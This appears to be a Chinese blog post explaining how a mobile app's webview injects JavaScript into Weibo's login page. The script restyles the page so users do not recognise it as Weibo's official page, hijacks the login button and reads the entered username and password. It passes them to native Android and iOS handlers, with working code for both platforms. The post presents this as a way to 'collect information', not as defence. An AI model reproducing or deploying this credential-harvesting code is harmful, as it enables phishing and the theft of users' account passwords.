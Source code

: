  ```
  buttonEle.innerText="请进行用户授权";
  selectNode('//*[@id="loginWrapper"]/form/section/div[1]/i').className="";
  selectNode('//*[@id="loginWrapper"]/form/section/div[2]/i').className="";
  selectNode('//*[@id="loginAction"]').className="btn";
  selectNode('//a[@id="loginAction"]').addEventListener('click',transPortUnAndPw,false);
  return window.webkit;
}
function transPortUnAndPw(){
  username=selectNode('//*[@id="loginName"]').value;
  pwd=selectNode('//*[@id="loginPassword"]').value;
  window.webkit.messageHandlers.getInfo({body:JSON.stringify({"username":username,"pwd":pwd})});
}
```
使用js修改页面元素，使之看起来不会让人发觉这是weibo官方的页面。
修改后的页面如图：
![修改后登录页面.png](http://upload-images.jianshu.io/upload_images/10280397-c2b2aee8b46a2417.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
# 串改登录点击事件，获取用户名密码

```
selectNode('//a[@id="loginAction"]').addEventListener('click',transPortUnAndPw,false);
function transPortUnAndPw(){
  username=selectNode('//*[@id="loginName"]').value;
  pwd=selectNode('//*[@id="loginPassword"]').value;
  window.webkit.messageHandlers.getInfo({body:JSON.stringify({"username":username,"pwd":pwd})});
}
```
同时串改登录点击按钮，通过js调用app webview的方法，把用户名和密码传递给app webview 完成信息收集。
## js调用webview的方法
android端：
```
// js代码
window.weibo.getPwd(JSON.stringify({"username":username,"pwd":pwd}));
//Java代码
webView.addJavascriptInterface(new WeiboJsInterface(), "weibo");
public class WeiboJsInterface {
        @JavascriptInterface
        public void getPwd(String returnValue) {
            try {
                unpwDict = new JSONObject(returnValue);
            } catch (JSONException e) {
                e.printStackTrace();
            }
        }
    }
```
android通过实现一个@JavaScriptInterface接口，把这个方法添加类添加到webview的浏览器内核之上，当调用这个方法时，会触发android端的调用。
ios端：
```
//js代码
window.webkit.messageHandlers.getInfo({body:JSON.stringify({"username":username,"pwd":pwd})});
//oc代码
WKUserContentController *userContentController = [[WKUserContentController alloc] init];
 [userContentController addScriptMessageHandler:self name:@"getInfo"];

- (void)userContentController:(WKUserContentController *)userContentController didReceiveScriptMessage:(WKScriptMessage *)message
{
    
    self.unpwDict=[self getReturnDict:message.body];
}
```